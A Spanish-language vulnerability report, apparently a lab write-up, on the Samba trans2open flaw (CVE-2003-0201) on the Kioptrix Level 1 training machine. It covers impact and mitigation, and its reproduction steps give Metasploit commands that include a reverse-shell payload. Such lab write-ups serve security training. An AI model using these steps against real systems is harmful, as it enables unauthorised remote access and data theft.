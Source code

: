 #  Vulnerabilidad en puerto 139 / protocolo smb

### Descripción
SMB (Server Message Block) es un protocolo cliente-servidor que controla el acceso a archivos y directorios enteros, así como a otros recursos de la red, como impresoras, routers o interfaces compartidas con la red. Una vulneración a este protocolo podría significar el acceso no autorizado de un usuario y la perdida o alteración de información valiosa.

### Sistema Vulnerable
El problema fue identificado y probado en Kioptrix level 1

### Gravedad del problema
Alta

### Reproducción
1.  Obtener  versión del protocolo smb
  -Acceder a la consola de metasploit a través del comando msfconsole en la terminal
  -Ejecutar el módulo smb_version el comando “use auxiliary/scanner/smb/smb_version” 
  -Verificar los parámetros que se necesitan establecer ejecutando la función “options” 
  -Establecer la ip destino en RHOSTS ejecutando “set RHOSTS” más la ip de kioptrix
  -Ejecutar el comando “run” para obtener la versión del protocolo smb 

2. Establecer conexión con el protocolo smb
  -Modificar el archivo smb.conf ejecutando el comando “sudo nano /etc/samba/smb.conf 
  -Al final del grupo global escribir “client min protocol = NT1” y guardamos con ctrl + o 
  -Reiniciar servicio samba ejecutando el comando “sudo service smbd restart” 
  -Establecer conexión con el comando “smbclient -L \\\\ip de kioptix\\” y presionar enter cuando solicite password 
 
3. Exploit 
  - Acceder a la consola de metasploit a través del comando msfconsole
  - Buscar modulo trans2open ejecutando “search trans2open”
  - Poner en uso el modulo trans2open ejecutando “use” más el número del módulo que coincide con el sistema de kioptrix, Linux
  - Establecer la ip destino en RHOSTS ejecutando “set RHOSTS” más la ip de kioptrix 
  - Establecer el payload con el comando “set payload linux/x86/shell_reverse_tcp
  - Ejecutar comando exploit

### Impacto
Un atacante puede abusar de la vulnerabilidad encontrada y escalar privilegios para llevar a cabo un ataque de denegación de servicio contra el sistema vulnerable con el fin de bloquear el servicio para el que está destinado. Este ataque puede afectar, tanto a la fuente que ofrece la información como puede ser una aplicación o el canal de transmisión, así como a la red. En las redes, el peligro de un ataque basado en el protocolo SMB es particularmente alto, ya que, por motivos de compatibilidad, en la red suelen estar activadas todas las versiones de SMB, porque así lo requieren las impresoras u otros dispositivos de red conectados. También es importante tener en cuenta que la información que se encuentra en el sistema vulnerable queda expuesta al atacante y se corre el riesgo de perderla.

### Mitigación
- Bloquear el acceso a los puertos SMB desde redes que no sean de confianza.
- Bloquear el acceso a los puertos tcp / 445 y tcp / 139 en el perímetro de la red evitará ataques de partes que no sean de confianza. Sin embargo, esta no es una solución viable para el medio ambiente donde se necesitan servicios de archivos e impresión para usuarios legítimos.

### Referencias
- https://nvd.nist.gov/vuln/detail/CVE-2003-0201
- https://www.ionos.es/digitalguide/servidores/know-how/server-message-block-smb/
